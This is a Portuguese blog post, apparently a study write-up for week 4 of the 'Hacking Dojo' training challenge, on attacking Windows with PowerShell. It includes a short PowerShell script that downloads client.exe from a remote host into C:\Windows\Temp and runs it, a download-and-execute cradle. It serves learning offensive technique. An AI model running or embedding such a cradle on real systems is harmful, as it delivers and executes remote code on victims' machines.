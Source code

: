 ```yaml
---
title: Hacking Dojo - Semana \x04
author: Hastur
date: 2021-11-22 08:00:00 -0300
categories: [Estudos, Hacking Dojo]
tags: [Windows exploit, Python exploit, PowerShell port scanner, Office Weaponization, Macro]
image: "/img/std/dojo/dojo-logo.png"
alt: "Hacking Dojo"
---
```


Dando continuidade no desafio do [Hacking Dojo](https://becodoexploit.com/HackingDojo/), hoje atacaremos a semana 04.

Esta semana vamos atacar diretamente as linguagens mais utilizadas no `Windows`. Utilizando de `PowerShell` e as `Macros` do Office.

Bora pra cima!!

## Task \x1a

<center><img src="/img/std/dojo/dojo-61.png"></center>

O PowerShell possui nativamente uma variedade de comandos e funções que podem auxiliar na facilidade de se trabalhar com linha de comando. Basicamente uma evolução do `CMD` (ou um cmd metido a besta!).

Algumas destas funções auxiliam exatamente no download e execução de executáveis. Sáo elas:

* `(New-Object System.Net.WebClient).DownloadFile()` que nos permite fazer uma requisição web direto para um executável e baixá-lo
* `Start-Process ()` que nos permite executar um programa local

Se juntarmos os dois comandos, podemos facilmente cumprir o que esta task nos pede. O código ficou bem simples:

```powershell
$Arquivo = "client.exe"
$End = "http://192.168.1.7/$Arquivo"

Clear-Host

(New-Object System.Net.WebClient).DownloadFile($End,"C:\Windows\Temp\$Arquivo")
Start-Process ("C:\Windows\Temp\$Arquivo")
```
